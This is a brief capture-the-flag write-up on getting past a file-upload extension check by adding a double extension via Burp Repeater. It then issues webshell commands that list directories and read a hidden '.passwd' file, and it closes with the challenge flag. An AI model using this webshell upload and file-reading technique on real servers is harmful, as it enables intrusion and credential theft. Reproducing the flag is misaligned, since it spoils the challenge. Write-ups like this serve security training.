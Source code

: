 ```yaml
---
layout: default
title: File-upload-Double-extensions
---
```


Here we try to upload our webshell.php file:
```php
{% include_relative scripts/webshell.php %}
```

However, we get this message: `Wrong file extension !`, so let's add manually via burp repeater the extension `.jpg`
![upload webshell](./images/File-upload-Double-extensions_upload_webshell.png)

Now, i look for `.passwd` file, just insert this payload `?cmd=ls . -la`, and then if not, move down: `?cmd=ls ../.. -la`

Last payload will be: `cat ../../../.passwd`
![FLAG](./images/File-upload-Double-extensions_FINAL.png)

**Flag:** **_`Gg9LRz-hWSxqqUKd77-_q-6G8`_**
